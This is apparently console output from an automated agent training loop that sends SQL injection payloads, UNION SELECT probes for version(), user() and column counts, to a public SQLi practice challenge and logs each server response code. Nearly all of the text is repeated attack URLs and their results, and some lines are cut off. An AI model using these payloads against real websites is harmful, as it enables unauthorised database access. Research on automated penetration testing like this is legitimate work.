Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1508/1000000 [9:18:30<2485:49:11,  8.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1509/1000000 [9:18:32<1905:29:12,  6.87s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server respo

  0%|          | 1510/1000000 [9:18:58<3472:48:18, 12.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1511/1000000 [9:19:04<2985:36:12, 10.76s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 un

  0%|          | 1512/1000000 [9:19:39<4962:03:55, 17.89s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1513/1000000 [9:19:40<3551:50:10, 12.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1514/1000000 [9:19:41<2574:20:01,  9.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/leve

  0%|          | 1515/1000000 [9:20:10<4254:39:02, 15.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1516/1000000 [9:20:11<3061:47:05, 11.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1517/1000000 [9:20:12<2224:58:45,  8.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1518/1000000 [9:20:13<1641:45:21,  5.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1519/1000000 [9:20:14<1224:42:58,  4.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1520/1000000 [9:20:19<1252:18:01,  4.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1521/1000000 [9:20:20<952:50:21,  3.44s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server respo

  0%|          | 1522/1000000 [9:20:28<1304:11:28,  4.70s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1523/1000000 [9:20:29<989:23:55,  3.57s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' a

  0%|          | 1524/1000000 [9:23:26<15447:48:57, 55.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1525/1000000 [9:23:27<10888:31:25, 39.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1526/1000000 [9:23:28<7697:37:56, 27.75s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1527/1000000 [9:23:29<5463:01:41, 19.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1528/1000000 [9:23:29<3899:04:25, 14.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1529/1000000 [9:23:30<2810:25:33, 10.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1530/1000000 [9:23:31<2043:26:07,  7.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'u

  0%|          | 1531/1000000 [9:23:38<1981:00:36,  7.14s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(

  0%|          | 1532/1000000 [9:24:43<6786:33:18, 24.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union sel

  0%|          | 1533/1000000 [9:24:58<6019:15:51, 21.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1534/1000000 [9:25:00<4379:31:56, 15.79s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1535/1000000 [9:25:01<3162:14:22, 11.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1536/1000000 [9:25:02<2288:29:36,  8.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union s

  0%|          | 1537/1000000 [9:25:15<2673:20:29,  9.64s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union

  0%|          | 1538/1000000 [9:27:15<11880:37:59, 42.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1539/1000000 [9:27:16<8391:26:31, 30.26s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1540/1000000 [9:27:17<5949:51:03, 21.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1541/1000000 [9:27:18<4240:28:52, 15.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1542/1000000 [9:27:20<3128:30:28, 11.28s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1543/1000000 [9:27:21<2265:26:09,  8.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1544/1000000 [9:27:22<1664:16:53,  6.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1545/1000000 [9:27:23<1246:01:29,  4.49s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1546/1000000 [9:27:24<953:09:54,  3.44s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1547/1000000 [9:27:26<818:34:14,  2.95s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union selec

  0%|          | 1548/1000000 [9:28:07<4007:50:27, 14.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1549/1000000 [9:28:08<2881:03:01, 10.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1550/1000000 [9:28:08<2050:32:47,  7.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Serve

  0%|          | 1551/1000000 [9:28:45<4461:11:38, 16.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1552/1000000 [9:28:45<3199:27:29, 11.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1

  0%|          | 1553/1000000 [9:28:58<3266:27:54, 11.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1554/1000000 [9:28:59<2366:25:31,  8.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1555/1000000 [9:29:00<1732:32:47,  6.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1556/1000000 [9:29:01<1295:13:39,  4.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server r

  0%|          | 1557/1000000 [9:29:25<2919:48:28, 10.53s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1558/1000000 [9:29:26<2119:00:09,  7.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQL

  0%|          | 1559/1000000 [9:31:15<10529:59:39, 37.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1560/1000000 [9:31:15<7447:09:34, 26.85s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.alterv

  0%|          | 1561/1000000 [9:32:39<12145:57:18, 43.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1562/1000000 [9:32:40<8578:54:27, 30.93s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://z

  0%|          | 1563/1000000 [9:33:35<10613:06:42, 38.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1564/1000000 [9:33:36<7505:19:14, 27.06s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1565/1000000 [9:33:37<5336:44:14, 19.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1566/1000000 [9:33:38<3811:14:01, 13.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1567/1000000 [9:33:39<2751:37:36,  9.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1568/1000000 [9:33:40<2002:38:08,  7.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1569/1000000 [9:33:41<1478:00:05,  5.33s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1570/1000000 [9:33:42<1117:22:37,  4.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
